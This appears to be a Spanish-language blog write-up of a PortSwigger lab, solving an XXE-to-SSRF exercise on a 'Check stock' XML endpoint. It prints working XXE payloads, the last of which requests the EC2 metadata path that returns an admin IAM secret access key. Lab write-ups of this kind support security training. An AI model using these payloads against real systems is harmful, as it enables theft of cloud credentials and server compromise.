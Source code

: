 ```yaml
---
title: "Exploiting XXE to perform SSRF attacks"
description: "Laboratorio de Portswigger sobre XXE Injection"
date: 2024-11-27 12:26:00 +0800
lang: es-ES
author: Justice-Reaper
categories:
  - Portswigger Labs
  - XXE Injection
tags:
  - Portswigger Labs
  - XXE Injection
  - Exploiting XXE to perform SSRF attacks
image:
  path: /assets/img/Portswigger/Portswigger.png
---
```


## Certificaciones

- eWPT
- eWPTXv2
- OSWE
- BSCP
  
## Descripción

Este laboratorio tiene una función llamada `Check stock` que analiza la `entrada` en `formato XML` y devuelve cualquier valor inesperado en la respuesta. El `servidor` del laboratorio está ejecutando un `endpoint` de `metadatos` de `EC2 (simulado)` en la `URL` predeterminada, que es `[http://169.254.169.254/](http://169.254.169.254/)`. Este `endpoint` puede usarse para obtener datos sobre la instancia, algunos de los cuales podrían ser sensibles. Para `resolver` el `laboratorio`, hay que `explotar` la vulnerabilidad `XXE` para llevar a cabo un ataque `SSRF` que `obtenga` la `clave secreta` de acceso `IAM` del servidor desde el `endpoint` de `metadatos` de `EC2`

---

## Resolución

Al `acceder` a la `web` nos sale esto

![](/assets/img/XXE-Injection-Lab-2/image_1.png)

Si pulsamos en `View details` veremos la `descripción` del `artículo`

![](/assets/img/XXE-Injection-Lab-2/image_2.png)

Si pulsamos en `Check stock` y `capturamos` la `petición` con `Burpsuite` vemos que se está tramitando un `XML`

![](/assets/img/XXE-Injection-Lab-2/image_3.png)

Vamos a insertar un `DTD (Document Type Definition)` y a `comprobar` si es `vulnerable` a `XXE`

```
<?xml version="1.0" encoding="UTF-8"?>
	<!DOCTYPE foo [<!ENTITY xxe "Doe"> ]>
	<stockCheck>
		<productId>
			&xxe;
		</productId>
		<storeId>
			1
		</storeId>
	</stockCheck>
```

Obtenemos `Doe` lo que quiere decir que ha funcionado y probablemente sea `vulnerable` a un `XXE`

![](/assets/img/XXE-Injection-Lab-2/image_4.png)

Con este `payload` hacemos un petición al `endpoint`, por lo cual estaríamos explotando un `SSRF (Server Side Request Forgery)` a través de un `XXE`

```
<?xml version="1.0" encoding="UTF-8"?>
	<!DOCTYPE foo [<!ENTITY xxe SYSTEM "http://169.254.169.254/"> ]>
	<stockCheck>
		<productId>
			&xxe;
		</productId>
		<storeId>
			1
		</storeId>
	</stockCheck>
```

La `respuesta` del `servidor` nos `devuelve` el `nombre`, en este caso es `latest`, debemos ir haciendo peticiones hasta `obtener` la `ruta` del `endpoint` completa

![](/assets/img/XXE-Injection-Lab-2/image_5.png)

Con este nuevo `payload` obtenemos la `secret acces key` del usuario `admin`

```
<?xml version="1.0" encoding="UTF-8"?>
	<!DOCTYPE foo [<!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin"> ]>
	<stockCheck>
		<productId>
			&xxe;
		</productId>
		<storeId>
			1
		</storeId>
	</stockCheck>
```

![](/assets/img/XXE-Injection-Lab-2/image_6.png)
